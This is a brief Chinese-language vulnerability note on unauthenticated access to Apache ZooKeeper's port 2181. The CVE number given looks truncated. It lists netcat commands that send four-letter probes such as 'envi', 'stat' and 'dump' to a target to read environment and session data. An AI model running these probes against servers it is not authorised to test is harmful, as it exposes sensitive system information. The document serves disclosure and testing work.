

Apache ZooKeeper 未授权访问漏洞 CVE-2014-085¶
漏洞miao'shu¶
默认安装配置完的zookeeper允许未授权访问，管理员未配置访问控制列表（ACL）。导致攻击者可以在默认开放的2181端口下通过执行envi命令获得大量敏感信息（系统名称、java环境）导致任意用户可以在网络不受限的情况下进行未授权访问读取数据
漏洞影响¶
Apache ZooKeeper
漏洞复现¶
Apache ZooKeeper 默认开放 2181端口 ,使用如下命令获取敏感数据
echo envi | nc xxx.xxx.xxx.xxx 2181

其他信息
1、stat：列出关于性能和连接的客户端的统计信息。
echo stat |ncat 127.0.0.1 2181
2、ruok：测试服务器是否运行在非错误状态。
echo ruok |ncat 127.0.0.1 2181
3、reqs：列出未完成的请求。
echo reqs |ncat 127.0.0.1 2181
4、envi：打印有关服务环境的详细信息。
echo envi |ncat 127.0.0.1 2181
5、dump：列出未完成的会话和临时节点。
echo dump |ncat 127.0.0.1 2181